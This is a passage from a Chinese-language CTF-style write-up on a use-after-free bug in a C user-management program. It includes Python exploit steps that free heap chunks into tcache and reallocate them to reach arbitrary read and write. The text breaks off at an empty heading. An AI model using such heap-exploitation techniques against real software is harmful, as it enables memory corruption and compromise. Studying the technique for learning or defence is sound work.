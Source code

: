 正常情况下：

<img src="https://bu.dusays.com/2024/12/03/674ec4d5f35c9.png" alt="image-20241203164357745" style="zoom:67%;" />

利用漏洞后：

<img src="C:\Users\Tauh\AppData\Roaming\Typora\typora-user-images\image-20241203185426393.png" alt="image-20241203185426393" style="zoom: 50%;" />

### 3.uaf

​	观察代码发现这里读后并没有清空为 NULL ,因此可以利用这一 uaf 漏洞‘

```c
//user_add
printf("introduction size > ");
int intro_size;
scanf("%d", &intro_size);
// ...

//user_del
free(info->intro);
free(info);
// infos[index] = NULL
```



​	首先，生成两个用户，堆中现在有两个已分配的块，索引分别为 `0` 和 `1`，大小均为 `0x80` 字节。

```python
handle_add(b"user1", b"1", 0x80, b"A" * 0x20, b"1")
handle_add(b"user2", b"1", 0x80, b"B" * 0x20, b"1")
```

​	接下来释放这两个堆。堆中的 `user1` 和 `user2` 被释放，加入到 `tcache` 的 `0x80` 大小类的自由列表中。

```python
handle_del(0, b"1")
handle_del(1, b"1")
```



通过操控 `info[2]->intro` 的内容，我们能够控制 `info[0]` 中的数据，进一步影响 `info[0]->intro` 的内容，就我们能够实现对任意地址的读写操作。

```python
payload = b"C" * 0x30
handle_add(b"user3", b"1", 0x60, payload, b"1") # 2
payload = b"hacked"
handle_show(1, b"1")
```

![image-20241203233125668](C:\Users\Tauh\AppData\Roaming\Typora\typora-user-images\image-20241203233125668.png)

##  堆上漏洞的利用 

### 1. 
